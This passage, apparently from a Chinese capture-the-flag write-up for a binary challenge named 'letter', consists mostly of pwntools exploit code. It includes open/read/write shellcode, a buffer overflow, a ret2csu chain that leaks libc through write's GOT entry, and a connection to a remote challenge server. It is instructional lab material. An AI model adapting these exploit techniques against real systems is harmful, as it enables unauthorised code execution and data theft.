 ```py
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
xor rax, rax
mov rdi, 3
mov rsi, 0x601070
mov rdx, 0x100
syscall
mov rax, 1
mov rdi, 1
mov rsi, 0x601070
mov rdx,0x100
syscall
'''
r.sendline('a'*0x18+p64(0x60108C)+asm(shellcode))
r.interactive()

```


发现其他师傅有另外的解法

exp：

```py
from pwn import*
context.log_level = 'debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./letter')
context.arch = elf.arch
def pr(a,addr):
	log.success(a+'====>'+hex(addr))
write_plt = elf.plt['write']
write_got = elf.got['write']
read_got = elf.got['read']
prdi = 0x400AA3
p6 = 0x400A9A
mmmc = 0x400A80
vuln = 0x400958
p = remote('182.92.108.71',31305)
#p = process('./letter')
#gdb.attach(p,'b *0x4009BB')
p.sendafter('?\n',str(0xffffffff).ljust(0x10,'\x00'))
payload = 'a'*0x18+p64(p6)+p64(0)+p64(1)+p64(write_got)+p64(1)+p64(write_got)+p64(8)
payload += p64(mmmc)+'a'*16+p64(0x00601000+0x500+0x10)+'a'*32+p64(0x4009DD)
p.send(payload)
p.recvuntil('.\n')
write_leak = u64(p.recv(8))
libcbase = write_leak - libc.sym['write']
open_addr = libcbase + libc.sym['open']
pr('libcbase',libcbase)

payload = 'a'*0x18+p64(0x00601000+0x500+0x10+0x10)+asm(shellcraft.open('flag'))
payload += asm(shellcraft.read(3,0x00601000+0x500+0x100,100))
payload += asm(shellcraft.write(1,0x00601000+0x500+0x100,100))
p.sendline(payload)

p.interactive()
```
